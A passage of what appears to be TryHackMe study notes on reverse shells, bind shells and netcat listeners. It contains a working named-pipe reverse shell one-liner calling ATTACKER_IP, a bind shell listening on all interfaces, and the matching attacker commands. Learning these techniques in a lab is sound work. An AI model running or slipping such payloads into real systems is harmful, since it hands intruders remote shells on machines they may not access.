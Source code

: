 #### Step 2: Execute Payload on Target
```bash
# Named pipe reverse shell payload
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP 443 >/tmp/f
```

**Payload Breakdown:**
1. `rm -f /tmp/f` - Remove existing named pipe
2. `mkfifo /tmp/f` - Create new named pipe for bidirectional communication
3. `cat /tmp/f | sh -i 2>&1` - Read pipe and pipe to interactive shell
4. `nc ATTACKER_IP 443 >/tmp/f` - Send output back through pipe to Netcat

#### Step 3: Attacker Receives Shell
```
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
target@tryhackme:~$
```

---

## 3. Bind Shells

### Concept
- **Bind Shell**: Binds to port on compromised system and listens for attacker connection
- **Use Case**: When target restricts outgoing connections
- **Disadvantage**: Easier to detect (listening service)

### How Bind Shells Work

#### Step 1: Set Up Bind Shell on Target
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

**Payload Breakdown:**
- Similar to reverse shell but uses `nc -l` to listen on target
- `0.0.0.0` listens on all interfaces
- Port 8080+ avoids needing root privileges

#### Step 2: Attacker Connects to Target
```bash
attacker@kali:~$ nc -nv TARGET_IP 8080
```

---

## 4. Listener Tools

### Enhanced Netcat Listeners

#### Rlwrap (Readline Wrapper)
```bash
# Enables arrow keys and command history
attacker@kali:~$ rlwrap nc -lvnp 443
```
